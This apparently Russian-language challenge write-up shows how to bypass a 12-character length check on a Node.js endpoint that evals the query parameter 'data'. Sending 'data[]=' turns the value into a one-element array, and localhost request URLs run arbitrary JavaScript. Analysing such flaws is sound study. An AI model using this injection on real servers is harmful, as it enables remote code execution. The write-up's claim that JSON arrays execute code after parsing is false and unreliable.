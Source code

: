 Первое, что бросается в глаза - это ограничение длины данных, она не может превышать 12 символов. Хм но в 12 символов надо еще постараться что-то такое впихнуть, короткое, чтобы прошло (в голове сразу начали крутиться мысли о манипуляцияциях в передаче параметров строки). Так вот, раз Node.js - это JavaScript, а мы знаем, что массив в JS является исполняемым элементом, по этой причине в JSON передача [], как корневого элемента данных, может выполнить определенный код, после парсинга. Вот к примеру, мы можем выполнить такой код `[console.log("Hello!")]` и получим в консоле вывод `Hello!`. Вернемся к нашим параметрам в строке. Для передачи данных серверу нужно использовать параметр data - это видно из следующей строки:

```javascript
if (req.query.data && req.query.data.length <= 12) {
```

Чтобы преодолеть это ограничение, нам нужно воспользоваться этим моментом и не страшно, что наш код будет внутри массива, он выполнится все равно, но мы при этом преодолеваем ограничение `req.query.data.length <= 12` так как длина нашего массива будет 1, ибо мы используем лишь один элемент массива и тут уже будет браться длина массива. Проверим это утрверждение, отправляем следующие данные:

```
http://localhost:3000/?data[]=%22Very%20very%20looooooooooog%20striiiiiiiiinnnnnggggg!!!!%20AAAAAAAAAAAAAAAAAAAAAAAAA%22
```

Вся соль тут в `?data[]=` так как таким образом `data` будет представлена на строне сервера как массив, а не как единичный параметр. Если мы произведем запрос вида `http://localhost:3000/?data[]=1`, то на сервере, `req.query.data` будет содержать `[1]`.
Ха ха! Работает! И при этом получем вывод:

```
eval ->Very very looooooooooog striiiiiiiiinnnnnggggg!!!! AAAAAAAAAAAAAAAAAAAAAAAAA
```

Ну еще для успокоения можно выполнить что-то кодом. К примеру:

```javascript
(function a(){var a="";for(var i=0;i<=10;i++){a+="test " + i + "\n";}return a;})()
```

Отправяем в браузере такой вот запрос:

```
http://localhost:3000/?data[]=%28function%20a%28%29{var%20a%3D%22%22%3Bfor%28var%20i%3D0%3Bi%3C%3D10%3Bi%2B%2B%29{a%2B%3D%22test%20%22%20%2B%20i%20%2B%20%22\n%22%3B}return%20a%3B}%29%28%29
```

Получаем вывод:

```
eval ->test 0
test 1
test 2
test 3
test 4
test 5
test 6
test 7
test 8
test 9
test 10
```

